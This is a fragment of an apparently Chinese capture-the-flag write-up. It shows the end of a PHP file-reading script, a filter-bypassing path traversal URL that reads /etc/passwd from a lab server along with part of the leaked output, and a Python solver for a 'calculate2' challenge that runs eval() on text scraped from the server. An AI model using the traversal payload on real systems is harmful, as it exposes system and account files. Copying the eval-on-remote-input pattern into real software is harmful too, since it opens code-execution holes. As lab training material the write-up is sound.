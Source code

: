 ```php
$data = fread($handle, 8192);
if (strlen($data) == 0) {
break;
}
echo($data);
} while (true);

fclose($handle);
exit();


?>
```

代码审计有好多过滤

[http://172.19.1.167:8004/stage/11/getfilecontent.php?file=...//...//...//...//etetcc//ppasswdasswd](http://172.19.1.167:8004/stage/11/getfilecontent.php?file=...//...//...//...//etetcc//ppasswdasswd)

,:/run/systemd/netif:/bin/false systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false 
# 4.calculate2

题目： calculate2

难度： 初级

内容： “算”就完了，本题端口为8003


```python
import requests

import re

from bs4 import BeautifulSoup

s = requests.Session()

r = s.get('<http://172.19.0.82:8003/>')

content = r.text
soup= BeautifulSoup(content,'lxml')

pString = soup.find\_all(name='p')

e = str(pString\[0]).split('\<br/>')\[1].split('\</p>')\[0]

r = eval(e)
r2 = s.post('<http://172.19.0.82:8003/>',data = {'result'\:r})

print(r2.text)
```
